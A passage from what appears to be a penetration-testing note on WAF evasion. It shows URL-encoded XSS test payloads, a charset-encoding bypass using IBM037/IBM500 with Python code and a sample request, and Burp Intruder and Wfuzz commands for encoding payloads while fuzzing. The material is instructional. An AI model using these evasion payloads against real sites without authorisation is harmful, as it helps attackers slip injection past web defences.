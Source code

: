 You could either encode part of a payload or encode all

```json
%3cscript%3ealert %28%27supervuln%27%28%3c%2fscript %3e
%3c%73%63%72%69%70%74%3ealert('supervuln')%3c%2f%73%63%72%69%70%74%3e
```

#### 1.1 - Charset Encoding

This technique involves modifying the `Content-Type` header to use a different charset (e.g. `ibm500`). A WAF that is not configured to detect malicious payloads in different encodings may not recognize the request as malicious. The charset encoding can be done in Python

```python
# Charset encoding
application/x-www-form-urlencoded;charset=ibm037
multipart/form-data; charset=ibm037,boundary=blah
multipart/form-data; boundary=blah; charset=ibm037

##Python code
import urllib
s = 'payload'
print(urllib.parse.quote_plus(s.encode("IBM037"))) 

## Request example
GET / HTTP/1.1
Host: buggy
Content-Type: application/x-www-form-urlencoded; charset=ibm500
Content-Length: 61

%86%89%93%85%95%81%94%85=KKaKKa%C6%D3%C1%C7K%A3%A7%A3&x=L%A7n
```

### 4 - Automation w/*Burp Intruder* & *Wfuzz*

-  *Intruder* -> *Payloads*, **Payload Processing Option** allows you to add rules that Burp will apply to each payload before it is sent.

- Let's say we can bypass WAF by The following rule , we can apply it then start fuzzing for passwords or whatso

- Rules are applied from **TOP** to **BOTTOM** , in this example , suffix and prefix are added after encoding so they are not encoded.
![[2023_08_01_004051.png]]

- `Wfuzz` [Usage](https://wfuzz.readthedocs.io/en/latest/user/advanced.html#iterators-combining-payloads)

- List encoding methods:
```js
wfuzz -e encoders
```

- Encode payload before it's sent
```js
wfuzz -z file,wordlist/general/common.txt,md5 http://testphp.vulnweb.com/FUZZ
```
- Multiple Encoders
```js
wfuzz -z list,1-2-3,md5-sha1-none http://webscantest.com/FUZZ
```
